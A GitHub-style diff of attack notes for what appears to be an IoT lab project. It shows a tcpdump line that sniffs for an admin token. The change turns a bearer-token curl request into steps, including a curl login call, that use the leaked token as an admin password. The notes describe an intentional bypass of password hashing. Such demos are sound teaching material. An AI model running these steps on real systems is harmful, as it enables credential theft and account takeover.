

Before and after one commit to Tuckens/IoT-Project, a Markdown page: network_attack_notes.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
changing network_attack_notes.md

````diff
--- a/network_attack_notes.md
+++ b/network_attack_notes.md
@@ -71,11 +71,11 @@ sudo tcpdump -i wlan0 -A tcp port 8000 | grep -a "admin_token"
 ```
 
 **Step 2.5: Admin Account Takeover**
-Use the captured admin_token to hijack admin access:
-```bash
-curl -H "Authorization: Bearer admin_session_leaked_12345" http://<rpi_ip>/admin/users
-```
-Passive sniffing alone won't work—the token only leaks when temp=999, which requires active MITM modification via ARP spoofing.
+Use the captured admin_token as the password to login as any admin user via the web interface or API:
+- Web: Go to `http://<rpi_ip>/api/auth/login`, enter an admin username (e.g., from user creation) and password `admin_session_leaked_12345`.
+- API: `curl -X POST http://<rpi_ip>/api/auth/login -H "Content-Type: application/json" -d '{"username":"admin","password":"admin_session_leaked_12345"}'`
+
+This bypasses password hashing for admin accounts, demonstrating credential theft via leaked data.
 
 ---
 
````
